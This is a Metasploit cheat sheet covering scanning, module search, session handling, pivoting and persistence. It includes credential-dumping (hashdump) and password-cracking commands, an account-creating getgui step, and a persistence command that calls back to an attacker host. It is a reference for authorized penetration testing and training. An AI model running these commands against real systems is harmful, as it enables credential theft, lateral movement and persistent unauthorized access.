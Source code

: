 # Metasploit

`Initial Commands`

    msfdb reinit

`Check DB Status`

    db_status

`Create New Workspace`

    workspace -a <name>

`Nmap Scan Through MSF`

    db_nmap -T4 -A -vv -n <IP/CIDR> -p <PortRange> [-Pn, --script=vuln, --script=discovery]

------

## Searching Modules

    search type:(auxiliary/post/exploit) port:(#) platform:(windows/linux) [service]

------

## Modules

### Post Modules

`Hashdump` 

    msf > run post/windows/gather/hashdump

or

    msf > run post/windows/gather/smart_hashdump


`Post Modules on a Backgrounded Session`

    msf > use post/windows/gather/hashdump
    msf > show options
    msf > set SESSION 1

### Auxiliary Modules

`SSH Login`

    msf > use scanner/ssh/ssh_login
    
`Port Scanner`

    msf > use auxiliary/scanner/portscan/tcp
    msf > set RHOSTS 10.10.10.0/24

`DNS Enumeration`

    msf > use auxiliary/gather/dns_enum
    msf > set DOMAIN target.tgt

`FTP Server`

    msf > use auxiliary/server/ftp
    msf > set FTPROOT /tmp/ftproot

`Proxy Server`

    msf > use auxiliary/server/socks4

`SMB Enumeration`

    msf > auxiliary/scanner/smb/smb_version

`Password Cracking`

    msf > run auxiliary/analyze/jtr_crack_fast

------

## Sessions

`Single Session Exploitation`

Run the exploit expecting a single session that is
immediately backgrounded:

    msf > exploit -z

`Multiple Session Exploitation`

Run the exploit in the background expecting one or
more sessions that are immediately backgrounded:

    msf > exploit –j

`List all Current Jobs`

    msf > jobs –l

`Kill a Job`

    msf > jobs –k [JobID]

`List All Backgrounded Sessions`

    msf > sessions -l

`Interact With a Backgrounded Sessions`

    msf > session -i [SessionID]

`Background the Current Interactive Session`

    meterpreter > <Ctrl+Z>

**or**

    meterpreter > background

`Routing Through Sessions`

All modules (exploits/post/aux) against the target subnet mask will be pivoted through this session:  

    msf > route add [Subnet to Route To] [Subnet Netmask] [SessionID]

------

## Persistence from Meterpreter

`Windows`

    run getgui -e -u [username] -p [password]

`Linux`

    run persistence -X -i 60 -p 5000x -r [LHOST]
